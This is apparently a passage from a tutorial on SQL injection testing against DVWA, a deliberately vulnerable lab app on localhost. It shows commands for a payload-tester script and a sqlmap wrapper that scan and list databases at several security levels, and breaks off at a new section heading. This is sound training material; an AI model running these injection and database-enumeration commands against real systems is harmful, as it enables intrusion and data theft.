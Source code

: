 ### 5.2 Automated Testing with Scripts

#### 1. Basic Testing with Payload Tester
```bash
# Test all security levels
./scripts/payload_tester.sh -u http://localhost/dvwa/vulnerabilities/sqli/ -c "PHPSESSID=f500f9f7006f6596003d0ad3983048b0"

# Test specific security level
./scripts/payload_tester.sh -u http://localhost/dvwa/vulnerabilities/sqli/ -s low -c "PHPSESSID=f500f9f7006f6596003d0ad3983048b0"
./scripts/payload_tester.sh -u http://localhost/dvwa/vulnerabilities/sqli/ -s medium -c "PHPSESSID=f500f9f7006f6596003d0ad3983048b0"
./scripts/payload_tester.sh -u http://localhost/dvwa/vulnerabilities/sqli/ -s high -c "PHPSESSID=f500f9f7006f6596003d0ad3983048b0"
```

#### 2. SQLMap Automation Script
The SQLMap automation script provides a streamlined way to run SQLMap with various configurations. Here are some common use cases:

```bash
# Basic scan with cookie and security level
python3 scripts/sqlmap_auto.py -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  -c "PHPSESSID=f4f8bd7a806d9c5bc733a4676647b1de; security=low"

# List databases
python3 scripts/sqlmap_auto.py -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  -c "PHPSESSID=f4f8bd7a806d9c5bc733a4676647b1de; security=low" \
  --list-dbs

# Debug mode
python3 scripts/sqlmap_auto.py -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  -c "PHPSESSID=f4f8bd7a806d9c5bc733a4676647b1de; security=low" \
  --debug

# Comprehensive scan with all options
python3 scripts/sqlmap_auto.py -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  -c "PHPSESSID=f4f8bd7a806d9c5bc733a4676647b1de; security=low" \
  --list-dbs \
  --debug \
  --threads 10 \
  --technique B \
  --dbms MySQL
```

### 5.3 SQLMap Commands for Different Security Levels
